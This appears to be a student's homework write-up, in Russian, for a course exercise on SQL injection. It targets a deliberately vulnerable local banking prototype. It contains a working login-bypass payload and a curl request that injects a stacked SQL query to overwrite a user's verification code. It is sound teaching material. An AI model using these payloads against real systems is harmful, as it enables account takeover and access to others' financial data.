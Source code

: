 # Домашнее задание к занятию «1.3. SQL и транзакции»

## Описание

Разработчики подготовили прототип будущей системы интернет-банка.

Для запуска нужно скачать файлы из каталога `assets`:
* [`docker-compose.yml`](./assets/docker-compose.yml);
* [`docker-entrypoint-initdb.d/init.sql`](./assets/docker-entrypoint-initdb.d/init.sql).

После скачивания структура на вашем диске должна иметь вид:
* файл `docker-compose.yml`;
* каталог `docker-entrypoint-initdb.d`;
    * файл `init.sql`.
    
Для запуска используйте команду `docker-compose up`.

Для остановки и удаления контейнеров используйте `docker-compose down`.

## Задание «Логин и пароль»

### Этапы выполнения

Фронтенд сервиса работает на порту 8888:

Используя ваши знания об SQL Injection, подберите входные данные так, чтобы попасть на следующий экран с подтверждением кода без знания пароля, при этом вы при помощи методов социальной инженерии узнали, что в системе существует пользователь с логином `sasha`.

Примечание*. Конечно, вы можете подсмотреть хеш пароля в БД, но пароль ещё придётся подобрать.

### Результаты выполнения задания

В качестве результата пришлите входные данные, которые позволяют пройти на следующий экран без знания пароля пользователя.

## Ответ
В поле "Логин" вводим: `' or true -- ;` \
В поле "Пароль" вводим любой набор символов, например `1`
![](./pic/screenshot1.JPG)
## Код подтверждения*

**Важно**. Это необязательное задание. Его выполнение не влияет на получение зачёта по домашней работе.

### Описание

### `UNION`

В SQL есть специальная конструкция `UNION`, которая позволяет объединить данные нескольких запросов.

Пример:
```sql
SELECT login, password FROM users
UNION
SELECT number, status FROM cards
```

Сложит в результаты запроса данные из двух таблиц:
| login | password |
| --- | ----------- |
| sasha | ... |
| masha | ... |
| 5559 0000 0000 0001 | ... |
| 5559 0000 0000 0002 | ... |

Этот пример позволяет добавить к данным, легитимно выбираемым приложением, произвольные по нашему усмотрению, если мы можем дописать часть с `UNION`.

Ключевые моменты:
1. Количество полей и их типы должны совпадать в обоих `SELECT`. Для преобразования типов существуют специальные выражения или функции, например для [PostgreSQL](https://postgrespro.ru/docs/postgresql/13/typeconv).
2. Если первый `SELECT` ничего не вернёт, например, потому что в нём будет условие `WHERE`, которому не соответствует ни одна строка, то останутся только строки, полученные из второго `SELECT`.

Также нужно указать и на то, что `SELECT` не обязательно должен выбирать данные из таблицы. Например, запрос вида `SELECT 'vasya', 'active'` вполне легитимный. Он возвращает строку, в которой всего два столбца со значениями `vasya` и `active` соответственно.

### Результаты выполнения задания

В качестве результата пришлите сURL-запрос, который позволяет получить токен доступа без знания кода верификации.

## Ответ
\
Не вполне уверен, что выполнил задание верно, но мне удалось попасть внутрь приложения, не зная изначально код. Хотел бы узнать, какую конструкцию с `UNION` можно использовать, чтобы получить результат.

Во-первых, получить доступ внутрь приложения можно просто изучив логи контейнера при входе. `assets-db-1        | 2023-06-11 13:28:00.945 UTC [329] LOG:  statement: INSERT INTO codes (login, code) VALUES ('sasha', '39bf') ON CONFLICT (login) DO UPDATE SET code = '39bf', tries = 0`. Тут мы видим, что полю код присваивается значение `39bf`, причем при каждой попытке логина, код перезаписывается.

Во-вторых, рассмотрим ситуациюб когда мы не видим логи и не знаем код. \
Скопировав cURL из браузера, при неверной аутентификации, мы можем изменить cURL запрос к приложению, экранировав поле с запросом `WHERE` кавычкой и поставив `;`, а после добавляем запрос, который перезапишет значение `code`, которое соответствует известному нам по условию пользователю `sasha` на тот, который нужен нам. В примере это код `8888`, но по факту можно выставить любой.
![](./pic/screenshot2.JPG)
```text
curl 'http://localhost:8888/api/auth/verification' \
  -H 'Content-Type: application/json' \
  --data-raw $'{"login":"sasha\'; INSERT INTO codes (login, code) VALUES (\'sasha\', \'8888\') ON CONFLICT (login) DO UPDATE SET code = \'8888","code":"8888"}' \
  ```
![](./pic/screenshot3.JPG)
Сервер возвращает нам ошибку, но данные в бд уже перезаписаны, и введя в браузере код `8888` попадаем внутрь приложения и видим карты и балансы.
![](./pic/screenshot4.JPG)